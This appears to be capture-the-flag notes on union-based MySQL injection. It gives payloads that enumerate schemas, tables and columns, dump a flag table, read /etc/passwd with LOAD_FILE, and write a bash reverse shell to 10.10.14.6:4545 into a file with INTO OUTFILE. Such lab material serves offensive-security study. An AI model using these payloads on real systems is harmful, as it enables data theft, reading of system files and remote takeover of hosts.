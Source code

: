 ## Enumeration
#### Databases
```sql
UNION SELECT 1, schema_name ,3,4 FROM information_schema.schemata -- -

# -- mysql
# -- information_schema
# -- cs
```
#### Tables
```sql
UNION SELECT 1, table_name ,3,4 FROM information_schema.tables WHERE table_schema='cs'

# -- flag
# -- products
```
#### Columns
```sql
UNION SELECT 1, column_name ,3,4 FROM information_schema.columns WHERE table_name='flag'

# -- id
# -- name
```
#### Register
```sql
UNION SELECT 1, name ,3,4 FROM cs.flag
```
## Write and Read
#### Read
```sql
UNION SELECT 1, LOAD_FILE('/etc/passwd') ,3,4
```
#### Write
```sql
SELECT '$ bash -c \'bash -i >& /dev/tcp/10.10.14.6/4545 0>&1\'' INTO OUTFILE '/script/payload.sh';
```